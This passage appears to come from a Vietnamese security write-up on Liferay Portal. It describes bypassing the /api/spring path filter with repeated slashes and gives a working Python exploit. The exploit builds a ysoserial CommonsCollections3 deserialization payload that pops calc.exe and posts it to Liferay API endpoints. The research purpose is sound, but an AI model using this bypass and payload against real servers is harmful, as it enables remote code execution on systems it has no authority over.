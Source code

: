 ![1](image/59.png) 

Và luồng xử lí này này là cho cả **/api/spring** bypass bằng **/api//////spring**

## Exploit with bypass

```python
import requests  
import os  
  
URL = "http://192.168.110.108:8080"  
  
os.system("java -jar C:\\Tools\\ysoserial-master\\ysoserial.jar CommonsCollections3 calc.exe > payload.bin")  
r = requests.post(URL + "/api//////liferay", data = open("payload.bin","rb") )  
r = requests.post(URL + "/api//////spring/com_liferay_portal_service_spring_AccountService-http", data = open("payload.bin","rb") )
```

![1](image/60.png) 
